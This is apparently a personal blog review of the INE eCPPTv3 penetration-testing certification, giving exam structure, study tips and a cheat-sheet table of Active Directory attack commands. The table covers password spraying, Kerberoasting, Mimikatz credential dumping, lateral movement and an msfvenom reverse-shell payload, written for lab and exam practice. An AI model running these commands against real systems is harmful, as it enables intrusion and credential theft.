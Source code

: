```yaml
---
title: Certified Professional Penetration Tester (eCPPTv3) - INE 
description: eCPPTv2 Certification
slug: INE
date: 2025-01-28
#image: cover.jpg
categories:
    - Certification
tags:
    - Certification
    - INE
    - PenetrationTester
#weight: 1       # You can add weight to some posts to override the default sorting (date descending)
comments: false
---
```


# Certified Professional Penetration Tester (eCPPTv3) - INE 

The **Certified Professional Penetration Tester (eCPPTv3)** by INE is a practical certification designed for professionals specializing in penetration testing and ethical hacking. This certification is ideal for those looking to deepen their skills in identifying and mitigating security vulnerabilities. 

The certification is priced at **400$** and includes a practical exam lasting **24 hours**, during which you are required to complete penetration testing activities and answer 45 questions based on your findings.

This review includes personal notes and an example of the methodologies applied during the exam.


{{<callout>}}
**Personal Notes on the Course Content**
In this section, I’ve included some of my notes to help guide others studying for the eCPPTv3 certification. 
These notes summarize key takeaways from each module, covering essential techniques, tools, and strategies for threat hunting within networks and endpoints.
- **eCPPT Notes** → [eCPPT Notes](https://robertodandrea.notion.site/eCPPT-Certification-a979ec3064e34ed6bb9690efd8ffd176?pvs=74)
{{</callout>}}

### **Exam Structure:**

The exam is divided into two main components:

1. **Lab Environment**:
    - You will be provided with a virtual environment containing various systems, including Linux and Windows hosts, such as Windows servers acting as Domain Controllers.
    - Your objective is to identify and exploit vulnerabilities within this environment to gain unauthorized access.
2. **Lab Questions**:
    - After compromising the environment, you will answer 45 questions related to your activities and findings during the penetration test.

The exam is to be completed within **24 hours**, and you are required to submit your answers to the questions within this timeframe. Unlike previous versions, there is no requirement to submit a detailed report of your activities and findings.

### **Exam Objectives:**

1. **Information Gathering & Reconnaissance (10%)**:
    - Perform host discovery and port scanning on target networks.
    - Enumerate information from services running on open ports.
2. **Initial Access (15%)**:
    - Perform username enumeration to identify valid user accounts on target systems.
    - Perform password spraying attacks to identify valid credentials for initial access.
    - Perform brute-force attacks on remote access services for initial access.
3. **Web Application Penetration Testing (15%)**:
    - Perform web application enumeration to identify potential vulnerabilities and misconfigurations.
    - Identify and exploit common web application vulnerabilities for initial access (e.g., SQL injection, cross-site scripting, command injection).
    - Perform brute-force attacks against login forms.
    - Exploit vulnerable and outdated web application components.
    - Exfiltrate data and credentials from compromised web applications and databases.
4. **Exploitation & Post-Exploitation (25%)**:
    - Identify and exploit vulnerabilities or misconfigurations in services.
    - Identify and exploit privilege escalation vulnerabilities.
    - Dump and crack password hashes.
    - Identify insecurely stored credentials.
5. **Exploit Development (5%)**:
    - Develop or modify exploit code for initial access and post-exploitation.
    - Identify and exploit memory corruption vulnerabilities (e.g., stack overflow, buffer overflow).
6. **Active Directory Penetration Testing (30%)**:
    - Perform information gathering on Active Directory.
    - Perform enumeration attacks on Active Directory.
    - Exploit Active Directory vulnerabilities.
    - Perform privilege escalation attacks in Active Directory.
    - Perform lateral movement attacks in Active Directory.
    - Perform persistence attacks in Active Directory.
    - Perform data exfiltration attacks in Active Directory.

### Personal Tips for Success
{{<callout>}}
This certification, in my experience, presents a medium-to-high difficulty level, especially if you are not familiar with Active Directory (AD). The exam focuses significantly on AD exploitation techniques, making it essential to have a solid understanding of AD environments.

To enhance your preparation, engaging with platforms like [**GOAD](https://github.com/Orange-Cyberdefense/GOAD) (Game of Active Directory)** can be highly beneficial. GOAD provides a vulnerable AD environment, ideal for practicing common attack techniques. Detailed documentation and guides on tackling GOAD challenges are available on Mayfly277's website.

Additionally, platforms such as **Hack The Box** offer practical labs that can be extremely useful. Specifically, the machines **SAUNA**, **ACTIVE**, and **TIMELAPSE** are designed to practice AD exploitation techniques. These labs allow you to refine your skills in a controlled and challenging environment.

Another valuable resource is the mind map provided by Orange Cyberdefense, which offers a clear overview of AD penetration testing techniques. 
This mind map will help you visualize the various phases and tools necessary to approach the exam successfully.

https://orange-cyberdefense.github.io/ocd-mindmaps/
{{</callout>}}

## Table of useful command

| **`kerbrute`** | Enumerate
brute force/password spray | `Enumeration`: *kerbrute userenum -d example.local --dc 192.168.1.10 users.txt*

`BruteForce`: *kerbrute bruteuser -d example.local --dc 192.168.1.10 administrator passwords.txt*

*users.txt* file with user list |
| --- | --- | --- |
| **`crackmapexec`**
[https://www.youtube.com/watch?v=uLNpR3AnE-Y&list=PLbK3lpDL_g6ChnJ9E8LB30dezPfuzgaBI&index=2](https://www.youtube.com/watch?v=uLNpR3AnE-Y&list=PLbK3lpDL_g6ChnJ9E8LB30dezPfuzgaBI&index=2) | Enum hosts
Enum null sess Enum anony access

 | `Get password Policy`: *cme <IP> -u ‘user’ -p ‘password” --pass-pol*
**DO IT BEFORE… THEN TUNE THE Pwd SPARY with policy obtained**

`Username but NO pwd:` *cme smb <dc_ip> -u user.txt - password.txt --no-bruteforce*

`Valid Credential:` 
**Users**: *cme smb <IP> -u <user> -p ‘<password_from_before>’ --users*
**Account**: *cme smb <IP> -u <user> -p ‘<password_from_before>’ --shares*

`Enumeration`: *crackmapexec smb <IP>*
`Enumeration`: *crackmapexec smb <IP> -u “ p”* `Enumeration`: *crackmapexec smb <IP> -u ‘a’ -p”*

`Lateral Movement`: *crackmapexec smb <IP> -u <user> -p <password> -d <domain>* |
| **`evil-winrm`** | Access to target machine | `Lateral Movement`: *evil-winrm -i 192.168.1.100 -u Administrator -p 'Password123'* |
| **`xfreerdp`** | Access to target machine | `Lateral Movement`: *xfreerdp /v:192.168.1.100 /u:Administrator /p:'Password123'* |
| **`smbclient`**
 | accedere a risorse SMB/CIFS | `Lateral Movement`: [smbclient.py](http://smbclient.py) <domain>/<user>:<Password123>@<IP>

*smbclient -L //<dc_ip>/* |
| **`Enter-PSSession`** | Start interactive session | *Enter-PSSession <domain>
Enter-PSSession seclogs.resesarch.security.local* |
| **`net`** | Useful for policy settings | *net accounts
net user administrator* |
| **`runas`** | Access to victim | *runas.exe /user:administrator cmd*
[runas.exe /user:administrator cmd](https://www.notion.so/runas-exe-user-administrator-cmd-1196583d22bc80a1a689d2576e37705d?pvs=21)  |
| **`PowerView`** | Enumeration AD - Powersploit suite | `AS-REP Roasting primary step`: *Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }*
**[**Command:**](https://www.notion.so/Command-10c6583d22bc8002a34fe43b85bac6d6?pvs=21)** 

`AD-Kerberoasting`: *Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
setspn -T research -Q */**
**[**Command:**](https://www.notion.so/Command-10c6583d22bc80c694fdc162e0fccd8f?pvs=21)**  |
| **`winpeas`** | Identify misconfigurations, permissions, and vulnerabilities that could be exploited to gain elevated privileges | `Privilefge esclation:` *winpeas.exe* |
| **`msfvenom`** | Used to generate a reverse_tcp payload | *msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe > rTCP.exe
[**Command:**](https://www.notion.so/Command-f9a04aef68a348318f1741f6ac6dce2f?pvs=21)*  |
| **`msfconsole`** | Metasploit module | *msfconsole -q*
Meterpreter session: *exploit/windows/misc/hta_server* |
| **`Mimikatz`** | https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/ | **`hashdump`: *hashdump**
Return NTLM Hash of the user*
**`creds_all`: *creds:all**
Extract all possible hashes or credentials form Security Packages*
**`lsa_dump_secrets`:** ***lsa_dump_secrets**
Extract credential stored into Local Security Authority*
**`lsa_dump_sam`: *lsa_dump_sam**
Extract Security Account Manager and dumps credentials for local accounts* |
| **`psexec`** | Execute command on target machine | *psexec \\\\<target_ip> <cmd_command>*
OR
use for PTH |
| **`wmiexec`** | Used to run command on target machine | *python [wmiexec.py](http://wmiexec.py/) username:password@target_ip "whoami"*
 |
| **`fping`** | Ping ICMP machine to get alive | *fping -a -g 192.168.1.0/24* |
| **`GetNPUsers`** | Used to find hash | *python [GetNPUsers.py](http://GetNPUsers.py) <domain>/ -userfile <username.txt> -format hashcat -outputfile <hash_out.txt>

rebeus.exe asreproast /format:hashcat* |
| **`hashcat`** | Used to crack hash | *hashcat -m <algorithm> -a <type_of_attack> hash.txt*  |
| **`hydra`** | Brute force  | *hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.0.89 smb2*
 |
| **`wpscan`** | Wordpress vuln | [## detect plugins vulnerable
wpscan --url https://kihvhc2nhb0uocklpg88obt.eu-central-1.attackdefensecloudlabs.com/ --enumerate p --plugins-detection aggressive](https://www.notion.so/detect-plugins-vulnerable-wpscan-url-https-kihvhc2nhb0uocklpg88obt-eu-central-1-attackdefenseclo-df7a015647dc4ee3a18cbb6ec2a6fcf3?pvs=21)  |
| **`nmap`** | port scanning | *nmap -sC -sV -Pn -p- -oA output.txt <IP_addr> -vv* |

![eCPPT_DANDREA](eCPPT_DANDREA.png)

### Conclusion

The **eCPPTv3 certification** offers cybersecurity professionals a valuable opportunity to deepen their expertise in penetration testing, particularly focusing on Active Directory environments. By engaging with hands-on labs and utilizing resources like **GOAD** and **Hack The Box**, candidates can develop practical skills essential for real-world security assessments. The exam's emphasis on Active Directory exploitation reflects current security needs, highlighting the importance of mastering techniques to identify and mitigate risks associated with identity and access management within organizations.

Incorporating these resources into your preparation can enhance your understanding and proficiency in penetration testing, thereby increasing your chances of success in the eCPPTv3 exam.